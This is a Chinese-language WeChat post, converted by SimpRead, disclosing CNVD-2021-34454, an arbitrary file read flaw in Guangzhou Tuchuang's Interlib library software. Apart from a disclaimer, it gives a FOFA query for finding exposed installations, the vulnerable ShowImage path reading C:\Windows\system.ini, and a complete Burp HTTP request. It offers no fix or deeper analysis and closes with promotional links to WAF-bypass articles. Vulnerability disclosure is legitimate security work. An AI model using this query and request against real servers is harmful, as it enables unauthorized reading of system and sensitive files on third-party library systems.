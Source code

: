 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GurnpJm_jjGxpW7jRQCfyQ)

前言
==

**CNVD-2021-34454**

由团队师傅小小小月球挖掘

**申明****：本次测试只作为学习用处，请勿未授权进行渗透测试，切勿用于其它用途！**

公众号

* * *

漏洞背景
====

**广州图创计算机软件开发有限公司是集产品研发、应用集成、客户服务为一体的高新技术企业，主要目标是为图书馆行业用户提供高质量的应用软件系统设计、集成和维护服务**

* * *

漏洞背景
====

****利用漏洞，攻击者可以读取 Windows 或 Linux 服务器上的任意文件。利用文件读取漏洞，攻击者可以获取到系统文件信息，从而造成敏感信息泄露。****

* * *

FOFA 语法
=======

```
"广州图创" && country="CN" && body="/interlib/common/"
```

**![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGaEa0gbXVRLENykRoiaVseCicJFv47MibicT5hnqchicWYLKdGda0DDuypRxSXPzvpmvbGJTqaqJgYzIuQ/640?wx_fmt=png)**

* * *

漏洞详情
====

****漏洞 url:****

```
/interlib/report/ShowImage?localPath=C:\Windows\system.ini
```

****Burp：****

```
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: XXX.XXX.XXX.XXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://xxx.xxx.xxx.xxx
Connection: close
Cookie: JSESSIONID=657073E5FCD2C4BA12239182D01B1993
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

****文件读取情况仅抓包情况下可见****

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGaEa0gbXVRLENykRoiaVseCicbHNwgJzd8nCMYUh5pQvYib0q6r21iacqxXzKLfichGW7GRCNE2Nc9vfmw/640?wx_fmt=png)

* * *

**如果对你有帮助的话  
那就长按二维码，关注我们吧！**  

![](https://mmbiz.qpic.cn/mmbiz_png/Qx4WrVJtMVKBxb9neP6JKNK0OicjoME4RvV4HnTL7ky0RhCNB0jrJ66pBDHlSpSBIeBOqCrOTaWZ2GNWv466WNg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/EWF7rQrfibGYIzeAryXG89shFicuMUhR5eYdoSEffib7WmrGvGmSPpdvYfpGIA7YGKFMoF1IrXutHXuD8tBBbAYJg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/wKOZZiacmHTc9LIKRXddrzz6MosLdiaH4EQNQgzsrSXHObdAia8yeIlLz6MbK9FxNDr44G7FNb2DBufqkjpwiczAibA/640?wx_fmt=png)

**![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)**  [经验分享 | 渗透笔记之 Bypass WAF](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486210&idx=1&sn=5c0f6409e51c3c0cfb6bde43f2406409&chksm=c07fb0f6f70839e0e29f4ea9c8655d4ce7690c2a147aeeb74f2827aece58e3746f3f7c4ee562&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)  [什么是 HTTP 和 HTTPS](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486492&idx=3&sn=0a975b99a0351a95eef41d37813f7e5d&chksm=c07fb7e8f7083efe8054f864b5b25541fa3bf19ab311700f29254d03e45a4357069ee07c8802&scene=21#wechat_redirect)  

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)  [实战 |  BYPASS 安全狗 - 我也很 “异或”](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486492&idx=1&sn=fbd4ca8ed69ba6cb3adbc6ac8561d825&chksm=c07fb7e8f7083efef437eb3d685cc5bd6ac489629c613b5f2ce9ced8a7f8fcd335b6f91821a8&scene=21#wechat_redirect)  

右下角求赞求好看，喵~